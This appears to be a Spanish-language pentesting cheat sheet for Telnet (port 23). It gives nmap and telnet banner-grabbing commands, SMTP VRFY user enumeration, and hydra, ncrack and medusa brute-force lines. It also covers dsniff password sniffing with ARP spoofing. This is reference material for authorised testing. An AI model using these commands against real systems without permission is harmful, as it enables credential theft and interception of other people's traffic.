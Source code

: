 # Port 23 - Telnet

Permite acceder a otra máquina de manera remota a través de la linea de comandos, siendo un protocolo inseguro ya que la conexión no viaja cifrada.

## Commands

### Test connection

```bash
# Connect to a machine
telnet <IP> <Port> 
```

### Banner grabbing&#x20;

```bash
# Banner grabbing 
nmap -sV -p23 -n -Pn <IP> # Telnet 
telnet <IP> 22 # SSH Version grabbing
telnet <IP> 25 # SMTP Version grabbing 
└-> vrfy msfadmin # User enumeration 
```

### Bruteforce

```bash
hydra -l <USERNAME> -P <WORDLIST> telnet://<IP> [-t <THREADS> -s <PORT>]

# No me funcionaron estos métodos
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P passwords.txt -h <IP> -M telnet
```

### Password sniffing

**DSNIFF**&#x20;

```bash
# In the local machine
dsniff -i <NETWORK_INTERFACE>

# Alternative way with arp-spoofing
arpspoof -i <NETWORK_INTERFACE> -r -t <TARGET> <GATEWAY>
dsniff -t 23/tcp=telnet -n
```



**Wireshark**

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>





